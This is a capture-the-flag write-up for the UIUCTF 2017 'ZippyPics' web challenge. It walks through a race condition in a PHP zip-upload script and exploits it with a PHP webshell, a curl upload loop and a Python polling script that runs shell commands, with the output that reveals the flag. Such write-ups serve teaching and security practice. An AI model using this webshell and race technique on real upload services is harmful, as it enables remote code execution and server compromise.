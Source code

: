 ```yaml
---
layout: post
title:  "UIUCTF 2017 - ZippyPics"
date:   2017-04-30 00:00
categories: CTF
tags: [UIUCTF2017]
categories: [Web]
author: jbz
---
```



As you can simple guess from the description, Zippy Pics allows you to upload a ZIP file with GIF / JPEG / JPG / PNG files inside to obtain a link you can share.

## Recon
By inspecting the HTML source of /upload.php you can notice that there is the full source code of the PHP script.

```php
<?php
echo "<!--";
echo htmlentities(file_get_contents(__FILE__));
echo "-->";
if($_POST['title']) {
    $title = basename($_POST['title']);
} else{
    $title = basename($_FILES["file"]["name"],".zip");
}

$id = base_convert(rand(1000000000,PHP_INT_MAX), 10, 36);
$target_dir = "/var/www/zippy/uploads/".$title."_".$id;
$tmp_dir = "/tmp/".$title."/";
$uploadOk = 1;
$fileType = pathinfo($_FILES["file"]["name"],PATHINFO_EXTENSION);

if ($_FILES["file"]["size"] > 500000) {
    echo "Your file is too large.";
    $uploadOk = 0;
}
if($fileType != "zip" ) {
    echo "Only ZIP files are allowed.";
    $uploadOk = 0;
}
if ($uploadOk == 0) {
    echo "Your file was not uploaded.";
    exit;
}

mkdir($tmp_dir,0755);


$output = shell_exec("unzip -ojd '".escapeshellcmd($tmp_dir)."' '".escapeshellcmd($_FILES["file"]["tmp_name"])."'");
echo $output;

$di = new RecursiveDirectoryIterator($tmp_dir, FilesystemIterator::SKIP_DOTS);
$ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
foreach ( $ri as $img ) {
    if ($img->isDir()) {
        rmdir($img);
    } else {
        $imgType = pathinfo($img,PATHINFO_EXTENSION);
        if ($imgType != "gif" &amp;&amp; $imgType != "jpeg" &amp;&amp; $imgType != "jpg" &amp;&amp; $imgType != "png") {
            unlink($img);
        }
    }
}
$index = fopen($tmp_dir."index.php","w");
$text = <<<'EOT'
<?php
$images = glob("*.{jpg,jpeg,png,gif}",GLOB_BRACE);

foreach($images as $image) {
    echo '<img src="'.$image.'" /><br />';
}
?>
EOT;
fwrite($index,$text);
fclose($index);
symlink($tmp_dir,$target_dir);
header("Location: /uploads/".$title."_".$id);

?>
```

## Find the vuln 
Finding the **race condition** is trivial, first of all let's analyze what the PHP script does:
 1. A folder is created in /tmp/ with the ZIP name or the provided title
 2. The uploaded zip is extracted in the created dir
 3. All extracted files are processed and the ones which have not an allowed extension are deleted
 4. An index.php file is created to show all uploaded pictures
 5. A symlink in the webroot which points to the `/tmp/name || /tmp/title` dir is created
 
We can exploit this procedure as:
  - If you upload 2 ZIP files with the same title they are written to the same directory and both symlink points to the same location
  - If you put files with non allowed extensions in the ZIP they are first written in the target location and then removed

## Exploiting the vuln
To exploit the vuln we must:
 1. Create a ZIP file containing an image
 2. Upload the ZIP file with an arbitrary title
 3. Take note of the symlink created in the webroot
 3. Create a ZIP containing a lot of images and a PHP file
 4. Upload the ZIP with the same arbitrary title
 5. Access the PHP file before it's deleted using the symlink

## From idea to script
The upload max size is 500kb, so we must create as many images as possible to get more time as possible to exploit the race condition. We can use imagemagik and bash to do the trick.

```bash
i=0; while [[ $(du ./ | cut -d'.' -f1| tr -d '[:space:]') -lt 475000 ]]; do convert -size 1x1 xc:#ffffff $i.png; ((i+=1)); done
```
Then we create a PHP webshell and we name it 999999.php

```php
<?php system($_GET['c']); ?>
```

We create a ZIP file with both images and the PHP webshell and we name it 1.zip.

We create another ZIP file with 1.png inside and we name it 2.zip.

We upload 2.zip using the title "jbz".

We start submitting 1.zip in loop with a simple bash script.

    while true; do curl -s -o /dev/null -F "title=jbz" -F "create=" -F "file=@1.zip" 'http://challenge.uiuc.tf:8888/upload.php'; done

We create a script to check if 999999.php is there and execute an arbitrary command.

```python
#!/usr/bin/env python

import requests

def new_symlink():
    url = "http://challenge.uiuc.tf:8888/upload.php"
    files = {'file': open('2.zip', 'rb')}
    values = {'title': 'jbz', 'create' : ''}
        r = requests.post(url, files=files, data=values)
    print r.url
    return r.url

check = new_symlink()

while True:
    r = requests.get(check + "999999.php?c=ls -lah /var/www/zippy/")
    if r.status_code != 404:
        print r.text
        print "Race WON BB!!"
        exit()
```

Time to prepare a coffee and wait for the flag :D

## Brace yourselves flag is coming
After a while (damn!) we won the race and got this:

```
smaury@hitch-hicker:/tmp/$ python create.py
http://challenge.uiuc.tf:8888/uploads/jbz_9wz7hmnn3bk/
total 220K
drwxr-xr-x 4 root     root     4.0K Apr 29 17:07 .
drwxr-xr-x 4 root     root     4.0K Apr 29 17:07 ..
drwxr-xr-x 2 root     root     4.0K Apr 29 17:07 9d8bf193d88e4d3ab5fca4d7cb2d573f
-rw-r--r-- 1 root     root     2.4K Apr 29 15:20 index.html
-rw-r--r-- 1 root     root     1.6K Apr 29 17:02 upload.php
drwxr-xr-x 2 www-data www-data 196K Apr 30 05:20 uploads

WON the race!!
```
    
After visiting http://challenge.uiuc.tf:8888/uploads/jbz_9wz7hmnn3bk/9d8bf193d88e4d3ab5fca4d7cb2d573f/ we saw that the directory listing was available and that there was a flag file:

```bash
curl http://challenge.uiuc.tf:8888/9d8bf193d88e4d3ab5fca4d7cb2d573f/flag
flag{ez_as_lock_picking_a_ziploc}
```
